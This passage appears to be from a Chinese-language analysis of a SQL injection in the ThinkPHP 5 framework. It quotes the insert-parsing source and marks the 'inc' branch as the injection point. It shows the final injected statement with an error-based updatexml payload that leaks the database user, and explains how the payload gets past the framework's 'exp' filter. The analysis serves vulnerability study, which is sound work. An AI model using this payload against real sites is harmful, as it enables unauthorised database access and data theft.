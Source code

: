 ```php

        // 获取绑定信息
        $bind = $this->query->getFieldsBind($options['table']);
        if ('*' == $options['field']) {
            $fields = array_keys($bind);
        } else {
            $fields = $options['field'];
        }

        $result = [];
        foreach ($data as $key => $val) {
            $item = $this->parseKey($key, $options);#字段和表名处理 对payload利用没有实际影响
            ...
            if (false === strpos($key, '.') && !in_array($key, $fields, true)) {
                ...
            } elseif (is_null($val)) {
                $result[$item] = 'NULL';
            } elseif (is_array($val) && !empty($val)) {
                switch ($val[0]) {#关键点
                    case 'exp':
                        $result[$item] = $val[1];
                        break;
                    case 'inc':
                        $result[$item] = $this->parseKey($val[1]) . '+' . floatval($val[2]);
                        #result[`username`]=updatexml(1,concat(0x7e,user(),0x7e),1)+1
                        break;
                    case 'dec':
                        $result[$item] = $this->parseKey($val[1]) . '-' . floatval($val[2]);
                        break;
                }
            }
            ...
        }
        return $result;
    }
```

最终执行的sql语句为

```
INSERT INTO `users` (`username`) VALUES (updatexml(1,concat(0x7e,user(),0x7e),1)+1)
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204071901818.png)

>添加`username[2]=1`的原因

语句拼接时用到了`floatval($val[2])`,因此需要设置`username[2]`

>不使用`exp`的原因

前面在`input`处理时给`exp`后面加了个空格,类似于thinkphp_v3的处理方式

```php
#thinkphp/library/think/Request.php
    /**
     * 过滤表单中的表达式
     * @param string $value
     * @return void
     */
    public function filterExp(&$value)
    {
        // 过滤查询特殊字符
        if (is_string($value) && preg_match('/^(EXP|NEQ|GT|EGT|LT|ELT|OR|XOR|LIKE|NOTLIKE|NOT LIKE|NOT BETWEEN|NOTBETWEEN|BETWEEN|NOTIN|NOT IN|IN)$/i', $value)) {
            $value .= ' ';
        }
```